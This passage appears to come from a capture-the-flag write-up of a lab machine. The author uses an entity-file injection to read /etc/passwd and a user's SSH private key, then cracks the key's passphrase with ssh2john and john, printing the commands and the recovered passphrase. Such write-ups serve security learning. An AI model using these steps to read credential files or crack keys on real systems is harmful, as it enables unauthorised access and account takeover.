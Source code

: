 > it's work. i get **/etc/passwd** file from server. Ok.

> i change the entity file to **/home/barry/.ssh/id_rsa** since **Barry** has his own SSH key and repeating the request

> Result:

![ssh_key](./screenshots/ssh_key.png)

> I copy the key and try to connect to the system via SSH:

```bash

ssh -i private_key barry@10.10.124.65
Enter passphrase for key 'private_key':

```
> i need the passphrase...

> I extract the hash of the passphrase from the private key and pass it through **john**:

```bash

ssh2john private_key > private_key_hash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt private_key_hash.txt

```

> Result

```bash

Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
urieljames       (private_key)

```
